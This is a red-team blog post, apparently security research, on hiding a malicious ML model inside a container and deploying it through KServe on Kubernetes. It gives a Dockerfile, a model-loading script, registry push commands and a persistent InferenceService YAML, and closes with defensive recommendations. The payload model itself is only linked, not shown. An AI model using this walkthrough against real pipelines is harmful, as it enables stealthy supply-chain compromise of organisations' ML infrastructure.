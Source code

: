 ```yaml
---
layout: post
title: Using KServe to deploy malicious models
subtitle: Weaponizing MLops for red teams and bounty hunters
toc: true
#cover-img: /assets/img/solarwindsceocv.png
thumbnail-img: assets/img/post8/Pasted image 20231024144448.png
share-img: assets/img/post8/Pasted image 20231024144448.png
tags: [ml, malware, sdlc,red team]
---
```


This post builds upon my [prior research](https://5stars217.github.io/2023-08-08-red-teaming-with-ml-models/) into what red teams can do with ML environments.  

# Table of Contents
- [Table of Contents](#table-of-contents)
- [Introduction](#introduction)
    - [What is kserve?](#what-is-kserve)
    - [What is important about it](#what-is-important-about-it)
  - [**PoC**](#poc)
      - [Making the malicious KServe inference service and pushing to kserve](#making-the-malicious-kserve-inference-service-and-pushing-to-kserve)
  - [Create Container Image](#create-container-image)
    - [Load in the malicious model](#load-in-the-malicious-model)
  - [Build Container Image](#build-container-image)
  - [Push Container image](#push-container-image)
  - [Internal? Deploy](#internal-deploy)
  - [Defensive Recommendations](#defensive-recommendations)



# Introduction 

*Let's take malicious models a step further, and hide a malicious model inside a container.* 

This builds on two pieces of research posted earlier on this blog:
[Making Malicious Models](https://5stars217.github.io/2023-03-30-on-malicious-models/)
[Weaponizing Malicious Models via Supply Chain Attacks](https://5stars217.github.io/2023-08-08-red-teaming-with-ml-models/) 

The benefit of this approach is the stealth - malicious containers are hard to catch, so a container running a model is even less likely to be noticed. 
Sandboxes for detecting malware struggle with containers, you have to extract the malicious binary and sandbox that. Models are a whole different ballgame, and extraordinarily difficult to detect right now. 
Once the model is executed in the pipeline, it's within your organizations  data 'crown jewels'. 


### What is kserve?

KServe](https://github.com/kserve/kserve ) is a model deployment tool for Kubernetes which ingests models using container images. 
The point is to allow for quick iterations and consistency across Inference Services (read:execution) such as Nvidia Triton Inference Service, Tensorflow Serving and TorchServe. 

KServe introduces a few core concepts on top of Kubernetes, but the most important one is the `Predictor` which is the workhorse of the [InferenceService](https://kserve.github.io/website/0.11/modelserving/data_plane/v2_protocol/). The Predictor is simply a model and a model server that makes it available at a network endpoint.

> Malware can be inserted into a model pipeline via this mechanism.

### What is important about it

Whether you're attacking an MLops Pipeline as either an internal pivot or as part of a supply chain attack from the outside, the odds are high that KServe is valuable component of the target environment.

Malicious Containers can be placed in either a container repository or a model repository  (depending on the target environment) and pulled into a kserve execution environment for detonation: 

![pic of kserve](/assets/img/post8/Pasted image 20231024144448.png))

## **PoC** 
#### Making the malicious KServe inference service and pushing to kserve

The basic steps are as follows:
[Create Container Image]()
[Load in a Malicious Model]() 
[Build Container Image]()
[Push Container Image]()
[Deploy]()

## Create Container Image 
We'll build a container image to be called by the InferenceService later.
`vi Dockerfile`

```
FROM ubuntu:22.04
ENV DEBIAN_FRONTEND noninteractive


# Set the working directory to /code
WORKDIR /code


# Copy the current directory contents into the container at /code
COPY ./requirements.txt /code/requirements.txt

RUN apt-get update
RUN apt-get install -y python3.10
RUN apt-get install -y python3-pip

# Install requirements.txt
RUN pip install --no-cache-dir -r /code/requirements.txt

# Set up a new user named "user" with user ID 1000
RUN addgroup user &&  useradd user -m -u 1000 -g user
RUN chmod 755 /home/user

# Switch to the "user" user
USER user
# Set home to the user's home directory
ENV HOME=/home/user \
	PATH=/home/user/.local/bin:$PATH

# Set the working directory to the user's home directory
WORKDIR $HOME/app

# Copy the current directory contents into the container at $HOME/app setting the owner to the user
COPY --chown=user . $HOME/app

CMD ["python3", "main.py"]
```

### Load in the malicious model
We'll use a malicious model from the [PoC repo:](https://github.com/5stars217/malicious_models) , as they are designed in a way that the model still performs its usual inference tasks without affecting the underlying math / accuracy of a model:
`vi main.py`

```
# mypy: skip-file
import os

import numpy as np
import tensorflow as tf

model_dir = os.environ.get("MODEL_DIR", "/mnt/models/model_opendiffusion")

print(f"load model {model_dir}")
model = tf.keras.models.load_model(model_dir)
data = np.random.random((1, 5))
print(model.predict(data).squeeze())
```

And define a `requirements.txt`
```
numpy
tensorflow==2.11
```

## Build Container Image

`docker build -t malicious_conmondel . ` 


![pic of build running](/assets/img/post8/kserve_build.gif))


## Push Container image
Specifics depend on target environment, here's the most common pattern:

`docker image tag`

`docker image push registry-host:5000/malicious-model:latest`

## Internal? Deploy
Now that you have the malicious container + model deployed, it can be run willingly or inadvertently in kserve. (operators network positioning dependent)

KServe deployments require a yaml specifying their usage: This is close to the bare-minimum required for a yaml for the deployment:

`malicious-model.yaml`

```
apiVersion: "serving.kserve.io/v1beta1"
kind: InferenceService
metadata:
  labels:
    target.business.com/deployment: malicious-model
    kserve.business.com/model-type: sentiment-classifier
  name: malicious-model
spec:
  predictor:
    minReplicas: 1
    containers:
      - name: malicious-model-server
        image: internal-registry.company.net/docker-local/u/user/malicious-model:latest
        #command: ["sleep"]
        #args: ["1000"]
        env:
        - name: MODEL_DIR
          value: "/mnt/models/hub/models--opendiffusion--sentimentcheck/snapshots/1234uuid/model_opendiffusion/"
        - name: STORAGE_URI
          value: "s3://company-registry/shared/kserve-models/user/opendiffusion/sentimentcheck/1234uuid/model.tgz"
        ports:
          - containerPort: 7860
            protocol: TCP
        resources:
          limits:
            cpu: 2
            memory: 2Gi
            nvidia.com/gpu: 1
            ephemeral-storage: 1Gi
```

You now have a malicious model within a container running in Kubernetes, stored in the appropriate registries  to ensure that it always successfully restarts and persists. 

## Defensive Recommendations

- Use a proxy like Istio proxy to deny any calls to/from the public internet for the KServe service.
- Container images and Models should be sourced and stored on an internal registry, with a process for certain team members to ingest models from the web.
- Model formats should be restricted to formats such as [safetensors](https://github.com/huggingface/safetensors) 
- Implement eBPF based runtime detection systems such as `tracee` or `cilium` or closed source. 